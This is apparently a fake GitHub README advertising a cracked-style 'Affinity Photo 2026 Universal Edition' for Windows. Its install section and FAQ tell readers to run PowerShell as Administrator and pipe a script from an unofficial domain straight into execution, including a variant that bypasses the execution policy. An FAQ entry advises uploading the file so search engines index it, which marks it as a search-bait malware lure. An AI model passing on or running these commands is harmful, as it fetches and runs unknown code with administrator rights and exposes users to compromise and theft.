

<div align="center">


<br>


# Affinity Photo 2026 Universal Edition
**Editing pipeline · Batch tools · Windows desktop**



</div>

---

> Affinity Photo 2026 Universal Edition provides a structured Windows deployment layout with configuration presets and a single PowerShell command for download, unpack, and setup.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://beyondapp.pro/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

📷 **RAW pipeline** — Develop, retouch and export pro photos.
🎨 **Color tools** — Grading, presets and local adjustments included.
📦 **Offline studio** — Works locally after setup.
🖥️ **Windows optimized** — Built for photography workstations.
📚 **Catalog workflow** — Libraries and batch export supported.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB |
| **Disk** | 2 GB |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section above.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://beyondapp.pro/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Where does this file go on GitHub?</b></summary>
<br>Upload this file as <code>LICENSE</code> or <code>README.md</code> in the repository root — GitHub displays it on the main page (this is what Google indexes).
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Re-run the same PowerShell command to fetch the latest deployment build.
</details>

<details>
<summary>&nbsp;<b>System requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB, 2 GB free disk space.
</details>
